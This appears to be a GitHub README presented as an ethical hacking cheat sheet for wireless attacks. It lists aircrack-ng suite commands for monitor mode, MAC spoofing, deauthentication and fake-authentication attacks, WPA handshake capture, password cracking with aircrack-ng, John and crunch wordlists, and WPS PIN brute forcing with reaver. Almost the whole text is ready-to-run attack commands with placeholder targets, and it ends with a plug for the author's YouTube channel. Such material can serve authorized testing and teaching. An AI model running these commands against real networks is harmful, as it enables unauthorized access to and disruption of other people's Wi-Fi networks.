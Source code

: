 # Ethical Hacking Cheat Sheet

|Basic Commands|Advance Commands|
|--------------|----------------|
|[]()|[]()|
|[]()|[]()|
|[]()|[]()|
|[]()|[]()|
|[]()|[]()|
|[]()|[]()|
---

# Network Manager commands

> ### Kill Network Manager
```bash
airmon-ng check kill
```

> ### Enable Network Manager

```bash
service NetworkManager start
```

> ### Restart Network Manager
```bash
systemctl restart NetworkManager
```

> ### Check Status of Network Manager
```bash
systemctl status NetworkManager
```
---

# Network Adapter Testing Commands

> ### Enable Monitor Mode
```bash
airmon-ng start wlan0
```

> ### Disable Monitor Mode
```bash
airmon-ng stop wlan0
```

> ### Packet Injection test
```bash
aireplay-ng --test wlan0
```

> ### Access Point Creation test

you can put any fake MAC Address like this `00:01:02:03:04:05`
```bash
airbase-ng -a 00:01:02:03:04:05 --essid "<AP_name>" -c {channel_no.} wlan0
```

---

# Changing MAC Address
```bash
ifconfig wlan0 down
ifconfig wlan0 hw ether 00:11:22:33:44:55
ifconfig wlan0 up
```
# Sniff Network 

> ### Sniff Network around `2.4 GHz`
```bash
airodump-ng wlan0
```

> ### Sniff Network Both `2.4 GHz and 5 GHz`
```bash
airodump-ng --band a wlan0
```

> ### Capture data both `2.4 GHz and 5 GHz`
```bash
airodump-ng --band abg wlan0
```
---
# Capture Data
```bash
airodump-ng --bssid {router_MAC_add} --channel {channel_no.} --write (file_name_without_extension) wlan0
```
# Analyse Data
```bash
wireshark
```
---

# Associate with router
```bash
aireplay-ng --fakeauth 0 -a {router_MAC_add} -h {Your_NIC_MAC_add} waln1
```

# DE-Authentication Attack
```bash
aireplay-ng --deauth {no_of_deauth_packets} -a {router_MAC_add} -c {target_MAC_add} wlan0
```
if it`s fails then, target router on specfic channel

```bash
airodump-ng --bssid {router_MAC_add} --channel {channel_no.} wlan0
```

# Fake-Authentication Attack
```bash
aireplay-ng --fakeauth {delay} -a {router_MAC_add} -h {your_NIC_MAC} wlan0
```

# WPA Handshake Capture
```bash
airodump-ng --bssid {router_MAc_add} --channel {channel_no.} --write {file_name_without_extn} wlan0
```

# Password Cracking Using `John`

> ### `.cap` to `.hccap`
```bash
aircrack-ng {.cap} -J {extension_name_not_required}
```
> ### `.hccap` to `.txt`
```bash
hccap2john {.hccap} > {.txt}
```
> ### Crack Password
```bash
john {.txt}
```

---

# Password Cracking using `wordlist`
```bash
aircrack-ng {.cap} -w {Wordlist.txt}
```
---
# create word list
```sh
man crunch
crunch 6 8 {key length} abc12 {char used} -o test.txt
```
> ## Create word list using pattern
```sh
crunch {key_length Ex: 6 8} {char_used Ex: abc12} -o {.txt} -t {patter Ex: a@@@@b}
```

---
# Password Cracking `Without Word list`

> ## Scan WPS Enable Network Around us

```sh
wash --interface wlan0
```

>[!WARNING]\
>Current version of reaver have some bugs, you can use old version

> ## Brute force the pin attack
```sh
reaver --bssid {router_MAC_add} --channel {channel_no.} --interface wlan0 -vvv --no-associate 
```

# =}> [Keep Supporting me on YouTube](https://www.youtube.com/@ohm_vishwa)

